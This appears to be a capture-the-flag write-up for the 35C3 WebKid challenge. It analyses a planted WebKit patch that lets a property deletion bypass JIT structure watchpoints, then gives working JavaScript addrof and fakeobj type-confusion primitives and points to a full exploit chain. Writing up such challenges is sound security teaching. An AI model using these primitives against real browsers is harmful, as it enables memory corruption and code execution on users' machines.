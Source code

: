 WebKid
======

*This is a Writeup for the WebKid challenge of 35C3CTF. Challenge files can be found [here](https://archive.aachen.ccc.de/35c3ctf.ccc.ac/uploads/WebKid-7a2c78814764c77b3b8e1d8391b9cabcb2a58810.zip). You can submit your exploit [here](https://vms.35c3ctf.ccc.ac/).*

In this challenge, we've got a WebKit patch and a prebuilt WebKit version. First step of course was to look into the patch, so let's do that now.

I started by looking at the JSObject::deleteProperty function, which is called when a property on a JavaScript object is deleted (with some exceptions, e.g. it's not called when you remove a numeric property). After applying the patch, it looks like this:

```c
bool JSObject::deleteProperty(JSCell* cell, ExecState* exec, PropertyName propertyName)
 {
     Structure* structure = thisObject->structure(vm);
 
     PropertyOffset offset = structure->get(vm, propertyName, attributes);
     bool propertyIsPresent = isValidOffset(offset);
     if (propertyIsPresent) {
         if (attributes & PropertyAttribute::DontDelete && vm.deletePropertyMode() != VM::DeletePropertyMode::IgnoreConfigurable)
             return false;
 
         if (structure->isUncacheableDictionary()) {
             offset = structure->removePropertyWithoutTransition(vm, propertyName, [] (const ConcurrentJSLocker&, PropertyOffset) { });t));
         } else {
             // This is new. The name also suggests something bad is happening here...
             if (!tryDeletePropertyQuickly(vm, thisObject, structure, propertyName, attributes, offset)) {
                 // If deleting the property quickly didn't work, do it the normal way.
                 thisObject->setStructure(vm, Structure::removePropertyTransition(vm, structure, propertyName, offset));
             }
         }
 
         if (offset != invalidOffset && (!isOutOfLineOffset(offset) || thisObject->butterfly()))
             thisObject->locationForOffset(offset)->clear();
     }
     // ...
```

Basically, a new tryDeletePropertyQuickly function is added and it is used whenever possible. In case deleting the property quickly doesn't work, it is deleted using the old way.

So let's now look into this tryDeletePropertyQuickly function:

```c
static bool tryDeletePropertyQuickly(VM& vm, JSObject* thisObject, Structure* structure, PropertyName propertyName, unsigned attributes, PropertyOffset offset)
{
    // This assert will always be true as long as we're not passing an "invalid" offset
    ASSERT(isInlineOffset(offset) || isOutOfLineOffset(offset));

    // Try to get the previous structure of this object
    Structure* previous = structure->previousID();
    if (!previous)
        return false; // If it has none, stop here

    unsigned unused;
    // Check if the property we're deleting is the last one we added
    // This must be the case if the old structure doesn't have this property
    bool isLastAddedProperty = !isValidOffset(previous->get(vm, propertyName, unused));
    if (!isLastAddedProperty)
        return false; // Not the last property? Stop here and remove it using the normal way.

    // Assert that adding the property to the last structure would result in getting the current structure
    RELEASE_ASSERT(Structure::addPropertyTransition(vm, previous, propertyName, attributes, offset) == structure);

    // Uninteresting. Basically, this just deletes this objects Butterfly if it's not an array and we're asked to delete the last out-of-line property. The Butterfly then becomes useless because no property is stored in it, so we can delete it.
    if (offset == firstOutOfLineOffset && !structure->hasIndexingHeader(thisObject)) {
        ASSERT(!previous->hasIndexingHeader(thisObject) && structure->outOfLineCapacity() > 0 && previous->outOfLineCapacity() == 0);
        thisObject->setButterfly(vm, nullptr);
    }

    // Directly set the structure of this object
    thisObject->setStructure(vm, previous);

    return true;
}
```

This function seems to look right. But, we're not doing a structure transition like we did using the normal way. We're directly setting the Structure of this object to the old structure. But why is this bad? Let's consider the following JS code:

```js
myArray = [13.37, 73.31];

function returnElem() {
    return myArray[0];
}

// Force JIT compilation of returnElem
for (var i = 0; i < 100000; i++)
    returnElem();

print(returnElem()); // Using JSC's print function
```

The interesting part is when the returnElem function is JIT compiled. Because the JIT compiler is smart, it will create a highly optimized version of returnElem, which doesn't contain any structure checks for myArray at all. Instead, the JIT compiler will place a Watchpoint on myArray's structure.

If this Watchpoint fires, the JITed version of the returnElem function will be immediately destroyed and the interpreter will be used on subsequent calls. The Watchpoint only fires if a structure transition occurs.

Now, if we could change myArray without triggering the Watchpoint, we could easily exploit this! Thankfully, we've got this new tryDeletePropertyQuickly function. If it succeeds, it will change the structure of the passed-in object, without triggering a structure transition, therefore not triggering any Watchpoints that might be present!

Consider the following code:

```c
// myArray is an unboxed array only containing doubles
myArray = [13.37, 73.31];
// Add the property
myArray.newProperty = 1337;

function returnElem() {
    return myArray[0];
}

// Force JIT compilation of returnElem
for (var i = 0; i < 100000; i++)
    returnElem();

// Now delete the newProperty property, which is the one we added last.
// This will not fire the watchpoint on myArray's current structure.
// Afterwards, we can modify myArray without triggering the watchpoint.
// The structure chain currently looks like this:
//  -------------------
// | Added newProperty |   <- We are currently here, the watchpoint is set on this.
//  -------------------
//           ^
//           |
//           |
//           |
//  --------------------
// | Original structure |
//  --------------------
delete myArray.newProperty;
// Now the structure chain looks like this:
//  -------------------
// | Added newProperty |   <- The watchpoint is set on this.
//  -------------------
//           ^
//           |
//           |
//           |
//  --------------------
// | Original structure |  <- We are here now.
//  --------------------
//
// Now we can freely modify myArray as we want to.
// To exploit, set element 0 to an object.
// returnElem will still think that element 0 is a double and return you the address of this object as double!
myArray[0] = {}; // myArray is now a boxed array containing an object and a double
print(returnElem()); // Using JSC's print function; Should print an address as double, use the Int64 library to parse
```

With this, we can now build our addrof and fakeobj primitives. Code:

```c
haxxArray = [13.37, 73.31];
haxxArray.newProperty = 1337;

function returnElem() {
    return haxxArray[0];
}

function setElem(obj) {
    haxxArray[0] = obj;
}

for (var i = 0; i < 100000; i++) {
    returnElem();
    setElem(13.37);
}

delete haxxArray.newProperty;
haxxArray[0] = {};

function addrof(obj) {
    haxxArray[0] = obj;
    return returnElem();
}

function fakeobj(address) {
    setElem(address);
    return haxxArray[0];
}

print(addrof({}));
print(fakeobj(addrof({})));
```

For full exploitation, just replace the addrof/fakeobj gadgets of an existing exploit, then change the payload. I used the code of my public WebKit exploit, which can be found [here](https://github.com/LinusHenze/WebKit-RegEx-Exploit). If you want to try this out, just replace pwn.js and make.py with the ones found [here](https://github.com/LinusHenze/35C3_Writeups/tree/master/WebKid) (copy make.py to the stage2 directory, don't forget to run it afterwards). When running this on the challenge VM (submit http://\<your ip\>/pwn.html), you should get the first flag, which is: 35C3\_alright\_now\_escape\_the\_sandbox\_please